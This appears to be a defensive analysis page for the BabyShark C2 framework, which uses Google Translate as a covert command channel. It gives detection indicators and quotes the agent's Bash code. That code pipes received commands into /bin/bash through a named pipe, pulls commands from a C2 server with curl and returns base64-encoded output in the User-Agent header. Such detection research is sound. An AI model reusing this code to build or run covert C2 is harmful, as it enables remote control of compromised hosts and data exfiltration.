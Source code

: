 # BabyShark

## Table of Contents

- [BabyShark](#babyshark)
  - [Table of Contents](#table-of-contents)
  - [Metadata](#metadata)
  - [Description](#description)
  - [Documentation](#documentation)
  - [Indicators](#indicators)
  - [Capabilities](#capabilities)
    - [Execute Commands via SHELL](#execute-commands-via-shell)
    - [Send Results via USER-AGENT](#send-results-via-user-agent)
  - [Functionalities](#functionalities)
    - [namedpipe](#namedpipe)
    - [getUrls](#geturls)

## Metadata

- Evaluator(s): [Nasreddine Bencherchali (@nas_bench)](https://twitter.com/nas_bench)
- Date: 24/01/2022
- Modified: 24/01/2022
- Source: [BabyShark](https://github.com/UnkL4b/BabyShark#agents-model)
- Implementation: Bash

## Description

> BabyShark C2 is a generic C2 that uses Google Translator as C&C channel

## Documentation

- [Understanding & Detecting C2 Frameworks — BabyShark](https://nasbench.medium.com/understanding-detecting-c2-frameworks-babyshark-641be4595845)

## Indicators

| Description        | Indicator                                                                                                          | Reference                          |
|--------------------|--------------------------------------------------------------------------------------------------------------------|------------------------------------|
| HTTP GET Request   | ```https://translate.google.com/translate?&anno=2&u=[c2server]``` | [Get URLs](#geturls) |
| C2 URL   | ```http[:]//[C2 IP]/momyshark?key=[SECRET KEY]``` |  |
| User-Agent   | ```Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36``` | [Get URLs](#geturls) |
| Process Creation   | ```curl --silent [URL] -H [USER-AGENT]``` | [Get URLs](#geturls) |
| Process Creation   | ```xmllint --html --xpath '//iframe/@src' - 2>/dev/null``` | [Get URLs](#geturls) |
| Process Creation   | ```xmllint --html --xpath '//span[@class="google-src-text"]/text()' - 2>/dev/null``` | [Get URLs](#geturls) |
| Process Creation   | ```xmllint --html --xpath '/html/body/main/div/div/div/div/ul/li/span/text()' - 2>/dev/null``` | [Get URLs](#geturls) |
| Process Creation   | ```cut -d "=" -f2-``` | [Get URLs](#geturls) |
| Process Creation   | ```tr -d '"'``` | [Get URLs](#geturls) |
| Process Creation   | ```sed 's/amp;//g'``` | [Get URLs](#geturls) |
| Process Creation   | ```rm /tmp/input /tmp/output``` | [Named PIPE](#namedpipe) |
| Process Creation   | ```mkfifo /tmp/input``` | [Named PIPE](#namedpipe) |
| Process Creation   | ```tail -f /tmp/input \| /bin/bash 2>&1 > /tmp/output``` | [Named PIPE](#namedpipe) |
| File Creation   | ```/tmp/input``` | [Named PIPE](#namedpipe) |
| File Creation   | ```/tmp/output``` | [Named PIPE](#namedpipe) |

## Capabilities

### Execute Commands via SHELL

- Description: Execute commands sent from channel on the host
- Source Reference:
  - https://github.com/UnkL4b/BabyShark/blob/master/README.md#agents-model
- Indicators:
  - Command is sent via the named pipe created beforehand and execute via `bash` and the output is written in the `$output` variable

    ```bash
    function namedpipe(){
    rm "$input" "$output"
    mkfifo "$input"
    tail -f "$input" | /bin/bash 2>&1 > $output &
    }
    .....
    echo "$command" > "$input"
    sleep 2
    ```

### Send Results via USER-AGENT

- Description: Send results of the executed commands via the User-Agent
- Source Reference:
  - https://github.com/UnkL4b/BabyShark/blob/master/README.md#agents-model
- Indicators:
  - HTTP request sent with a custom User-Agent with the following template: `User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36 | [Base64 Encoded String] | [ID]`

    ```bash
    function getcommand(){
    if [[ "$result" ]];then  
        command=$(curl -L --silent $second -H "$result" )
    .....
    result="$user_agent | $outputb64 | $idcommand "
    ```

## Functionalities

### namedpipe

- Description: The agent start by creating a named pipe and an output file. The pipe will be used to receive the commands and the output file will contain the results.
- Source Reference:
  - https://github.com/UnkL4b/BabyShark/blob/master/README.md#agents-model
- Indicators:
  - Usage of the binary `/bin/rm` to delete files: `rm /tmp/input /tmp/output`
  - Usage of the binary `/usr/bin/mkfifo` to create Named PIPE: `mkfifo /tmp/input`
  - Usage of the binary `/usr/bin/tail` to PIPE the results to the binary `/bin/bash` and the output file: `/tmp/output`

    ```bash
    input="/tmp/input"
    output="/tmp/output"

    function namedpipe(){
    rm "$input" "$output"
    mkfifo "$input"
    tail -f "$input" | /bin/bash 2>&1 > $output &
    }
    ```

### getUrls

- Description: The agent will request multiple times the different google translate URL's in a certain order to extract commands.
- Source Reference:
  - https://github.com/UnkL4b/BabyShark/blob/master/README.md#agents-model
- Indicators:
  - Usa of the following binaries: `curl`, `xmllint`, `cut`, `sed`, `tr`

    ```bash
    function getfirsturl(){
        url="https://translate.google.com/translate?&anno=2&u=$c2server"
        first=$(curl --silent "$url" -H "$user_agent" | xmllint --html --xpath '//iframe/@src' - 2>/dev/null | cut -d "=" -f2- | tr -d '"' | sed 's/amp;//g' )
    } 

    function getsecondurl(){
        second=$(curl --silent -L "$first" -H "$user_agent"  | xmllint --html --xpath '//a/@href' - 2>/dev/null | cut -d "=" -f2- | tr -d '"' | sed 's/amp;//g')
    }

    function getcommand(){
        if [[ "$result" ]];then  
            command=$(curl -L --silent $second -H "$result" )
        else
            command=$(curl -L --silent $second -H "$user_agent" )

            command1=$(echo "$command" | xmllint --html --xpath '//span[@class="google-src-text"]/text()' - 2>/dev/null)
            command2=$(echo "$command" | xmllint --html --xpath '/html/body/main/div/div/div/div/ul/li/span/text()' - 2>/dev/null )
            if [[ "$command1" ]];then
            command="$command1"
            else
            command="$command2"
            fi
        fi
    }

    function talktotranslate(){
        getfirsturl
        getsecondurl
        getcommand
    }
    ```
